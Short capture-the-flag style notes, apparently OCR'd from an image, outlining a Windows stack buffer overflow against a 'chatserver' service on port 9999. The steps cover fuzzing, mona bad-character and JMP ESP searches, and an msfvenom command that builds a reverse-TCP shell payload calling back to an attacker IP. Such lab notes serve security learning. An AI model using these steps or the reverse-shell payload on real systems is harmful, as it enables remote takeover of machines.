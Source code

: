 ##

* 3 services are running 
- FTP
- custom service at 9999

* FTP 
- run in binary mode
- download chatserver and dll file

* run fuzzer.py
* crashed at 2100 bytes
# !mona config -set workingfolder c:\mona\%p
# !mona bytearray -b "\x00"
# !mona compare -f C:\mona\chatserver\bytearray.bin -a 00fceea8
# !mona jmp -r esp -cpb "\x00"
# msfvenom -p windows/shell_reverse_tcp LHOST="10.10.172.192" LPORT=4444 EXITFUNC=thread -b "\x00" -f c

